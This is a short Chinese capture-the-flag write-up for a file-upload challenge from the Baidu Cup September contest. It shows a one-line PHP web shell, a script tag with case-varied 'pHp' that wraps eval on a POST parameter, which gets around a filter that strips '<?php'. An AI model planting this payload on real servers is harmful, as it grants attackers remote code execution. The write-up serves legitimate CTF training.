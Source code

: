 # Upload

## 题目描述
---
```
想怎么传就怎么传，就是这么任性。
tips:flag在flag.php中    
```

## 题目来源
---
“百度杯”CTF比赛 九月场

## 主要知识点
---


## 题目分值
---
50

## 部署方式
---


## 解题思路
---

![](images/ctf-2021-06-09-13-15-39.png)

随意上传文件，发现可以任意文件上传

![](images/ctf-2021-06-09-13-18-47.png)

发现php的文件的头不见了，想到使用`<script language="pHp">`来代替`<?php`绕过过滤。

```
<script language="pHp">@eval($_POST['a'])</script>
```

![](images/ctf-2021-06-09-13-22-13.png)

获取了webshell

![](images/ctf-2021-06-09-13-22-38.png)


## 参考
---
